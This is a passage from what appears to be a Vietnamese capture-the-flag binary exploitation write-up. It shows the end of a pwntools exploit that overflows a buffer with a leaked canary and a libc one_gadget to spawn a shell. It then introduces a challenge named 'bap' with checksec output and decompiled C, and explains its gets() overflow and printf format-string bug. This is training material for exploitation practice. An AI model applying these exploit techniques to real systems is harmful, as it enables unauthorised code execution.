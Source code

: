         # [2]: Get shell
        one_gadget = libc.address + 0xebc85
        pl = b'\0'*0x28 + p64(canary) + p64(0x4044b0) +p64(one_gadget)
        sla(b'name: ', pl)

        interactive()

    if __name__ == '__main__':
        exploit()
    ```

# bap

## Source

[bap.zip](bap.zip)

## General information

```bash
[*] '/home/alter/pwn/Practice/bap/bap'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format[16]; // [rsp+0h] [rbp-10h] BYREF

  setbuf(_bss_start, 0LL);
  printf(": ");
  gets(format);
  return printf(format);
}
```

Ở đây ta dễ dàng thấy đoạn mã trên chứa hai lỗi  **Buffer Overflow** và **Format String Vulnerability**. Hàm `gets()` được sử dụng để đọc đầu vào từ người dùng, nhưng không giới hạn độ dài dữ liệu nhập, dẫn đến khả năng **Buffer Overflow** khi nhập nhiều hơn 16 ký tự, ghi đè lên stack và có thể kiểm soát luồng thực thi. Tiếp theo, dữ liệu được in ra bằng hàm `printf(format)`, nơi giá trị của `format` hoàn toàn do người dùng kiểm soát.

## Leak libc
